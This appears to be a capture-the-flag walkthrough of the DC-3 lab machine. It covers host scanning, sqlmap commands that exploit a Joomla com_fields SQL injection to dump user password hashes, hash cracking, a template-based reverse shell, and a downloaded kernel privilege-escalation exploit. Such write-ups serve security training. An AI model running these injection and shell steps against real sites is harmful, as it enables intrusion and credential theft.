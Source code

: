 

### **Netdiscover**

![netdiscover](images/dc3/netdiscover.png)

We use the tools called netdiscover scan hosts, we found the 192.168.0.105 is our target virtualbox host ip.

------

### **Namp**

![nmap](images/dc3/nmap.png)

We found some services <u>HTTP</u>

------

### Searchsploit & Msf

![version_scan](images/dc3/version_scan.png)

![searchspolit](images/dc3/searchspolit.png)

By searchsploit joomla version, we can find one exploit ways existed.we save this exploit scripts

------

### Solution

we cat exsploit and use these payload

![payload](images/dc3/payload.png)

We use this payload ==> get database

`sqlmap -u "http://192.168.0.105/index.php option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs`

![database](images/dc3/database.png)

We use this payload ==> get tables

`sqlmap -u "http://192.168.0.105/index.php option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables`

<img src="images/dc3/tables.png" alt="tables" style="zoom: 50%;" />

We use this payload ==> get tables

`sqlmap -u "http://192.168.0.105/index.php option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -T '#__users' -C name,password --dump`

![user](images/dc3/user.png)

So user admin's password hash is got. let's to use john to brute force it, the password is **snoopy**

![password](images/dc3/password.png)

Now we login in this web admin pages.

![home](images/dc3/home.png)

we use gobuster to scan, found /administrator, /robots.txt.dist, /templates, so we login in /administrator

![joomla_admin](images/dc3/joomla_admin.png)

![manager](images/dc3/manager.png)

Now we should use template to reverse shell to get www-data privilege.

![template](images/dc3/template.png)

So when we link to this http://192.168.0.105/templates/protostar/hello.php,  connected successfully!!

![ls1](images/dc3/ls1.png)

we try enum the system scripts, but found nothing. then try to find system version.

![os](images/dc3/os.png)

use searchsploit

![searchsploit2](images/dc3/searchsploit2.png)

![exploit](images/dc3/exploit.png)

So i wget this zip from my apache server, unzip it .

![ls2](images/dc3/ls2.png)

![ls3](images/dc3/ls3.png)

accroding to the exploit steps, we should execute ./compile.sh, then ./doubleput.

![flag](images/dc3/flag.png)

Successfully!!!

------

**That' all , Thanks for your watching**
